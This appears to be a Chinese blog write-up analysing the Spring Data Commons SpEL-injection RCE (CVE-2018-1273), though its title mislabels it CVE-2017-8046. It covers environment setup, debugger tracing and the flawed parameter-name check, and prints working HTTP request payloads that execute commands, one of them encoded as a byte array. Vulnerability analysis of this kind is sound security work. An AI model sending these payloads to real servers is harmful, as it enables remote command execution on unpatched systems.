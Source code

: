 ```yaml
---
title: Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）分析
description: 承接上两篇，学习了一下Spring框架以后，分析一下Spring的一些历史漏洞，这篇分析Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）
categories:
 - 漏洞分析
tags:
 - 漏洞分析
---
```


### 0x00 环境搭建和漏洞复现
首先从官网Demo中搭建环境

```
$ git clone https://github.com/spring-projects/spring-data-examples.git  # 官方仓库
$ git reset --hard ec94079b8f2b1e66414f410d89003bd333fb6e7d  # 回退到一个库版本计较旧的版本
```

然后用IDEA倒入Maven项目，等待它自动构建完成

然后运行`web/example`目录下的Application，访问本机端口有返回即可，IDEA会显示一些错误，不影响运行

brup发送请求包

```
POST /users HTTP/1.1
Host: 192.168.0.145:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8080/users
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Connection: close
Upgrade-Insecure-Requests: 1

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")]=
```

![0-1](https://milkfr.github.io/assets/images/posts/2019-11-17-analysis-spring-data-commons-rce/0-1.png)

### 0x01 漏洞分析
这个程序的入口非常好找，直接在`example.user.web.UserController`里打断点就可以

```
@Controller
@RequiredArgsConstructor
@RequestMapping("/users")
class UserController {
	@ModelAttribute("users")
	public Page<User> users(@PageableDefault(size = 5) Pageable pageable) {
		return userManagement.findAll(pageable);
	}
}
```

之后就是不断的step over，在弹出计算器的一步stop into

不断循环，有耐心就能找完调用栈

![1-1](https://milkfr.github.io/assets/images/posts/2019-11-17-analysis-spring-data-commons-rce/1-1.png)

最后定位到的是`org.springframework.data.web.MapDataBinder$MapPropertyAccessor`的`setPropertyValue`里的`expression.setValue(context, value)`，其实之后还可以继续debug，但是到这一步就没什么必要里

之前的步骤也没有看到什么特殊的地方，看来只是对Request进行上下文绑定的整个过程

```
class MapDataBinder extends WebDataBinder {
    private static class MapPropertyAccessor extends AbstractPropertyAccessor {
        // 省略
        public boolean isWritableProperty(String propertyName) {
            try {
                return this.getPropertyPath(propertyName) != null;
            } catch (PropertyReferenceException var3) {
                return false;
            }
        }
        public void setPropertyValue(String propertyName, @Nullable Object value) throws BeansException {
            if (!this.isWritableProperty(propertyName)) {
                throw new NotWritablePropertyException(this.type, propertyName);
            } else {
                StandardEvaluationContext context = new StandardEvaluationContext();
                context.addPropertyAccessor(new MapDataBinder.MapPropertyAccessor.PropertyTraversingMapAccessor(this.type, this.conversionService));
                context.setTypeConverter(new StandardTypeConverter(this.conversionService));
                context.setRootObject(this.map);
                Expression expression = PARSER.parseExpression(propertyName);
                PropertyPath leafProperty = this.getPropertyPath(propertyName).getLeafProperty();
                TypeInformation<?> owningType = leafProperty.getOwningType();
                TypeInformation<?> propertyType = leafProperty.getTypeInformation();
                propertyType = propertyName.endsWith("]") ? propertyType.getActualType() : propertyType;
                if (propertyType != null && this.conversionRequired(value, propertyType.getType())) {
                    PropertyDescriptor descriptor = BeanUtils.getPropertyDescriptor(owningType.getType(), leafProperty.getSegment());
                    if (descriptor == null) {
                        throw new IllegalStateException(String.format("Couldn't find PropertyDescriptor for %s on %s!", leafProperty.getSegment(), owningType.getType()));
                    }

                    MethodParameter methodParameter = new MethodParameter(descriptor.getReadMethod(), -1);
                    TypeDescriptor typeDescriptor = TypeDescriptor.nested(methodParameter, 0);
                    if (typeDescriptor == null) {
                        throw new IllegalStateException(String.format("Couldn't obtain type descriptor for method parameter %s!", methodParameter));
                    }

                    value = this.conversionService.convert(value, TypeDescriptor.forObject(value), typeDescriptor);
                }

                expression.setValue(context, value);
            }
        }
        private PropertyPath getPropertyPath(String propertyName) {
            String plainPropertyPath = propertyName.replaceAll("\\[.*?\\]", "");
            return PropertyPath.from(plainPropertyPath, this.type);
        }
    }
} 
```

最后的这个方法，只有对name进行了一次`isWritableProperty`校验参数名，实际上调用了`getPropertyPath`方法

![1-2](https://milkfr.github.io/assets/images/posts/2019-11-17-analysis-spring-data-commons-rce/1-2.png)

可以看到正则是把`[]`内的东西去掉，因此只留下了username，但是这里只是做判断，并没有对原来的参数过滤，接下来就用原来的参数名进行SpEl进行解析，解析成功就命令执行了

到这里分析结束

### 0x02 总结
框架本身就是允许`param_name[SpEL expression]`的方式执行SpEL表达式，还做了特殊处理，所以只有作者为什么要允许这样做很奇怪，感觉没有什么必要这里专门增加灵活性

网上的PoC`#this.getClass().forName("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")`利用的SpEL表达式上下文，其实没必要，没有和Struts2对OGNL一样的过滤，可以直接用常用直接调用进程的方式触发命令执行

类似如下

```
POST /users HTTP/1.1
Host: 192.168.0.145:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8080/users
Content-Type: application/x-www-form-urlencoded
Content-Length: 232
Connection: close
Upgrade-Insecure-Requests: 1

username[T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{111,112,101,110,32,47,83,121,115,116,101,109,47,65,112,112,108,105,99,97,116,105,111,110,115,47,67,97,108,99,117,108,97,116,111,114,46,97,112,112}))]=
```